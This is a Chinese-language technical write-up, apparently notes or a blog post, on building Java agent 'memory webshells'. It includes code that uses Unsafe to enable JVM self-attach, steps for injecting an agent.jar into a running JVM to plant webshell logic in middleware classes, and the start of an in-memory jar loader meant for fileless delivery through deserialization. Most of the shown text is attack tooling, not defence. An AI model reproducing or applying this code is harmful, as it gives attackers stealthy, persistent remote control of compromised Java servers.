 ```java
    Class clazz =  Class.forName("sun.tools.attach.HotSpotVirtualMachine");
    Field field =  clazz.getDeclaredField("ALLOW_ATTACH_SELF");
    long offset = unsafe.staticFieldOffset(field);
    unsafe.putBoolean(clazz,offset,true);
}
public static Unsafe getUnsafe() throws  Exception{
    Field field = Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
    field.setAccessible(true);
    return (Unsafe)field.get(null);
}
```

## Agent内存马的实现

agent内存马是通过agent技术去修改中间件中关键类的字节码，通过在方法中插入额外的webshell逻辑。  
agent内存马分为有文件落地和无文件落地两种方式，无文件落地方式是对有文件落地的升级。

### 有文件落地的内存马

有文件落地的内存马的植入步骤分为:

1. 编写agent.jar文件来修改目标类，添加webshell逻辑。
2. 将agent.jar放置到目标系统的磁盘上。
3. 通过selfattach向目标自身jvm进程注入agent.jar，植入webshell。

### 文件落地的缺点

1. 必须有一个agent.jar文件在目标机器的磁盘上来供目标JVM加载。
2. 在JDK9以下，因为agent注入需要依赖tools.jar，虽然tools.jar是JDK内置的，但JVM默认是不加载的，因此需要动态加载；  
   如果agent.jar中使用javassist动态修改字节码，则还需要确保目标环境存在该依赖，不存在的话也需要动态加载。  
3. 虽然有方法可以在内存中直接加载jar，但是由于jar的体积都不小，即使压缩后的字节码也非常大，如果写在代码中，那么会导致代码体积过大，当通过反序列化植入agent内存马时，会导致序列化后的字节码太大。
   >内存加载jar的方法:

   ```java
    import java.io.*;
    import java.lang.reflect.Field;
    import java.lang.reflect.Method;
    import java.net.*;
    import java.util.ArrayList;
    import java.util.List;
    import java.util.Map;
    import java.util.concurrent.ConcurrentHashMap;

    /**
    * 自定义URLStreamHandlerFactory，注册自定义协议，实现jar包在内存中动态注入
    */
    public class ResourceLoader {

        private static final Map<String, byte[]> map = new ConcurrentHashMap<>();
        private static final String customProtocol = "customProtocol";
        private static boolean flag = false;

        public static void initJar(String jarName, byte[] jarBytes) throws Exception {
            if (!flag) {
                registerFactory();
            }
            map.put(jarName, jarBytes);
            //将jar添加到系统类路径中
            ClassLoader systemClassLoader = ClassLoader.getSystemClassLoader();
            Class clazz = systemClassLoader.getClass().getSuperclass();
            //changModule(clazz); //适配高版本JDK
            Field ucp = clazz.getDeclaredField("ucp");
            ucp.setAccessible(true);
   ```